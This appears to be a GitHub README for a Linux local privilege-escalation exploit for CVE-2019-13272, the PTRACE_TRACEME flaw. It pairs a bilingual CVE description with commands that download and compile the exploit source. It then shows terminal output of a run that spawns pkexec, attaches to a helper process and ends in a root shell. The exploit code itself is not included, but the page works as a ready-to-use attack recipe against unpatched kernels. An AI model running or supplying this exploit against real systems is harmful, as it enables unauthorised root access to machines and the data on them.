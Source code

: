 # CVE-2019-13272 Linux local root exploit

### Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)


[![asciicast](https://asciinema.org/a/6HFa1zk4bZKFjXDcr5LKnyiH1.svg)](https://asciinema.org/a/6HFa1zk4bZKFjXDcr5LKnyiH1)

```
In the Linux kernel before 5.1.17, 

ptrace_link in kernel/ptrace.c mishandles the recording of the credentials of a process that wants to create a ptrace relationship, 

which allows local users to obtain root access by leveraging certain scenarios with a parent-child process relationship,

where a parent drops privileges and calls execve (potentially allowing control by an attacker). 

One contributing factor is an object lifetime issue (which can also cause a panic). 

Another contributing factor is incorrect marking of a ptrace relationship as privileged, which is exploitable through (for example) Polkit's pkexec helper with PTRACE_TRACEME. 

NOTE: SELinux deny_ptrace might be a usable workaround in some environments.

在5.1.17之前的Linux内核中，
kernel / ptrace.c中的ptrace_link错误地处理了想要创建ptrace关系的进程的凭据记录，
这允许本地用户通过利用父子的某些方案来获取root访问权限 进程关系，父进程删除权限并调用execve（可能允许攻击者控制）。
一个影响因素是对象寿命问题（也可能导致恐慌）。 
另一个影响因素是将ptrace关系标记为特权，这可以通过（例如）Polkit的pkexec帮助程序与PTRACE_TRACEME进行利用。 
注意：在某些环境中，SELinux deny_ptrace可能是一种可用的解决方法。
```


![](./CVE-2019-13272.jpg)

 `wget https://raw.githubusercontent.com/jas502n/CVE-2019-13272/master/CVE-2019-13272.c`
 
 `gcc -s CVE-2019-13272.c -o pwned`
 
```
jas502n@Study:~/Desktop/CVE-2019-13272$ ./pwned 
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)                 
[.] Checking environment ...                                                   
[~] Done, looks good                                                           
[.] Searching for known helpers ...                                            
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper    
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper          
[.] Spawning suid process (/usr/bin/pkexec) ...                                
[.] Tracing midpid ...                                                         
[~] Attached to midpid                                                         
To run a command as administrator (user "root"), use "sudo <command>".         
See "man sudo_root" for details.                                               
                                                                               
root@Study:/home/jas502n/Desktop/CVE-2019-13272#
```




### Updated version of Jann Horn's exploit for CVE-2019-13272.

`https://bugs.chromium.org/p/project-zero/issues/detail?id=1903`


